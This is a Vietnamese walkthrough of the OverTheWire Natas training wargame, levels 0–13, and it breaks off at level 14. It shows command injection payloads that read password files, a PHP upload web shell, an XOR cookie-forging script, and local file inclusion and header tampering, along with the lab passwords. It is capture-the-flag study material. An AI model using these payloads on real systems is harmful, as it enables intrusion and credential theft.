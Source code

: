 ## Writeup Natas

- Natas 0
  ctrl + u ta thấy password natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

- Natas 0 -> 1
  vô hiệu hóa javascript trên trình duyệt là có thể chuột phải, hoặc bấm ctrl + u :v 
  pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

- Natas 1 -> 2
  vẫn ctrl+u thấy có một đường dẫn đến file ảnh /files/pixel.png. Thế nên mình truy cập đến url /files thôi, xem thử có gì không
  thì thấy có thêm một file users.txt. Mở ra thì thấy natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

- Natas 2 -> 3
  Ctrl + u ra dòng này: No more information leaks!! Not even Google will find it this time...
  Vậy là file robots.txt rồi. Xem thử thì thấy url /s3cr3t/ vào thấy file users.txt ra natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

- Natas 3 -> 4
  Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
  Lúc đầu vào nó hiện ra thông báo này, nó nói là chúng ta truy cập từ "", bạn nên truy cập từ natas5.., nhấn vào link refresh page thì
  Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

  Xem burp thì thấy dòng Referer: http://natas4.natas.labs.overthewire.org/ vậy giờ thay đổi link như hướng dẫn là được
  kết quả: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

- Natas 4 -> 5
  Access disallowed. You are not logged in
  Xem thử cookie thấy có trường loggedin đang có giá trị 0, sửa lại thành 1 
  kết quả: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

- Natas 5 -> 6
  ```php
  include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
  ```
  Khi ta nhập đúng secret thì ok. Thế secret ở đâu ? ta thấy dòng - include "includes/secret.inc"; nó lấy từ file này, vậy ta thử truy cập
  url này xem thế nào, ta có: $secret = "FOEIUWGHFEEUHOFUOIU"; giờ nhập vô là ok 
  kết quả: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

- Natas 6 -> 7
  ta thấy trong web có hai button dẫn đến hai đường link, home và about có địng dạng index.php?page= , mà thêm câu gợi ý 
  hint: password for webuser natas8 is in /etc/natas_webpass/natas8 , thế là web này bị lỗi local file inclusion, ta có url
  index.php?page=/etc/natas_webpass/natas8 thế là ra pass DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

- Natas 7 -> 8
  source code
  ```php
  $encodedSecret = "3d3d516343746d4d6d6c315669563362";

  function encodeSecret($secret) {
      return bin2hex(strrev(base64_encode($secret)));
  }

  if(array_key_exists("submit", $_POST)) {
      if(encodeSecret($_POST['secret']) == $encodedSecret) {
      print "Access granted. The password for natas9 is <censored>";
      } else {
      print "Wrong secret";
      }
  }
  ```
  mình nhập vào input rồi nó xào nặn bằng hàm encodeSecret, sau khi sào nặn xong giống với $encodedSecret
  cho từ đầu thì có password. Vậy giờ ta viết đoạn decode hàm trên, ta có 

  ```php
  $secret = "3d3d516343746d4d6d6c315669563362";
  echo base64_decode(strrev(hex2bin($secret)));
  ```
  ra được kết quả: oubWYf2kBq , nhập vào input ta được Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

- Natas 8 -> 9 
  Ta có source
  ```php
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      passthru("grep -i $key dictionary.txt");
  }
  ```
  chương trình hoạt động như sau: Mình nhập input thì nó gán vào biến $key và được vào thực thi câu lệnh
  grep -i $key dictionary.txt, điều đáng nói ở đây là không có kiểm tra đầu vào, người nhập muốn nhập gì nhập. Vậy ta sẽ nhập câu lệnh
  khác thử, ta dùng: ; ls /etc ; => ta thấy thư mục natas_webpass, lần mò vào trong ta được câu lệnh cuối cùng
  ; cat /etc/natas_webpass/natas10;  => nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

- Natas 9 -> 10 
  Dạng bài trước nhưng đã có kiểm tra input , nó trong cho dùng ; nữa thì mình đổi cái khác
  .* cat /etc/natas_webpass/natas11 #
  kết quả: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

- Natas 10 -> 11
  ```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = '<censored>';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  function loadData($def) {
      global $_COOKIE;
      $mydata = $def;
      if(array_key_exists("data", $_COOKIE)) {
      $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
      if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
          if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
          $mydata['showpassword'] = $tempdata['showpassword'];
          $mydata['bgcolor'] = $tempdata['bgcolor'];
          }
      }
      }
      return $mydata;
  }

  function saveData($d) {
      setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
  }

  $data = loadData($defaultdata);

  if(array_key_exists("bgcolor",$_REQUEST)) {
      if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
          $data['bgcolor'] = $_REQUEST['bgcolor'];
      }
  }

  saveData($data);



  if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

app này hoạt động như thế này: có một mảng 2 đối tượng showpassword và bgcolor, nó mã hóa qua các bước đến tạo thành cái cookie.
Server sẽ kiểm tra showpassword yes or no, yes thì show password để đi tiếp. Vậy mình cần làm ra một cookie mà trường showpassword có
giá trị là yes.
mình hiện đang có một cookie có showpassword là no khi mình nhấn nút lúc ban đầu. Dựa vào source code ta đảo ngược quá trình mã hóa, 
nhưng ta thấy $key = '<censored>'; đang là một giá trị không biết. Tìm $key này trước.
ta dùng code này để giả lập.

```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  echo xor_encrypt(json_encode($defaultdata));
```

  ta có $key = qw8J;
  Để đổi lại thông số showpassword bằng yes và giữ code y như ban đầu.
```php
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  $new_cookie = base64_encode(xor_encrypt(json_encode($defaultdata)));
  echo $new_cookie;
  ```
  ra được cookie cần muốn: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
  giờ chỉ cần edit cookie cũ , f5 lại trang là ok EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

- Natas 11 -> 12
  web upload file, đọc source không thấy có check file tải lên. Ta tải lên một file php
  ```php
  system("cat /etc/natas_webpass/natas13");
  ```
  xin lỗi mình đọc code không kĩ, khi up lên mình thấy nó có random tên của file và đổi đuôi file thành jpg. Mình dùng burp để chặn ở giữa
  đổi lại tên random bằng chính tên của file, khi upload thành công upload/1f0u6vpwqa.php nó thông báo thành công và quan trọng vẫn giữ được 
  đuôi file php. Truy cập url hiện ra pass: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

- Natas 12 -> 13
  Lần này đã check kỹ hơn. Kiểm tra file có phải là image không, mặc dù mình thử thểm đuôi .png vào sau khi up lên vẫn vô dụng, nên mình 
  dùng kĩ thuật chèn header của file PNG vào file shell cần up, phần này bạn có thể search gg, cách làm là vậy. rồi up lên như bình thường
  ra pass:  Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

- Natas 13 -> 14


  
 